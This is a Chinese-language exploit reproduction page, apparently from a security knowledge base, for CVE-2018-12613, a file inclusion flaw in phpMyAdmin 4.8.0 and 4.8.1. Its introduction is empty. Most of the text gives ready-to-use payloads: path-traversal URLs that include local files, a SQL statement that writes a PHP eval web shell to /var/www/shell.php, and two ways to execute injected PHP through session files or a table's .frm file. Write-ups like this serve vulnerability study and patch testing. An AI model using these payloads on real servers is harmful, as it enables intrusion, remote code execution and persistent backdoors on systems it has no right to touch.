（CVE-2018-12613）Phpmyadmin 远程文件包含漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin 4.8.0和4.8.1受到影响。

三、复现过程
------------

首先需要登录phpmyadmin

### payload

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt

![](./.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId25.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

    SELECT '<?php phpinfo()?>'

![](./.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId29.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![](./.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId31.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

    select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php'

##### 3、访问：

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![](./.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId36.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![](./.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId38.png)

##### 3、访问

    http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm

image
